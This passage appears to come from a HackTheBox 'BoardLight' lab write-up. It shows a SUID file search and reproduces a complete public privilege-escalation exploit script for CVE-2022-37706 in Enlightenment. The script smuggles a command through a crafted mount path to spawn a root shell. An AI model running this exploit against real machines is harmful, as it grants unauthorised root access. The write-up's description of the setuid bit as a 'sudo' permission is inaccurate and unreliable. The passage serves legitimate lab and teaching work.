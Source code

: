 Before we run a dedicated tool, I want to see if any file has permission to run as root, starting in the root directory. to do this, I am going to use the perm command:

``` bash
find / -type f -perm -u=s
```
this is finding any files (-type f for file) with the permission for a user to run with sudo (-u=s with u for user and s for sudo)

we get a bunch of system files and directories which aren't surprising.

That is except for some directories called "enlightenment":

![](assets/img/htb_boardlight/Screenshot_From_2024-09-23_02-55-53.png)

I went ahead and copy and pasted one of these into duckduckgo and found a github page containing an exploit for **CVE-2022-37706**:

https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

This is a exploit created by MaherAzzouzi using a simple but effective shell script:

from: https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh

``` bash
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///n
```

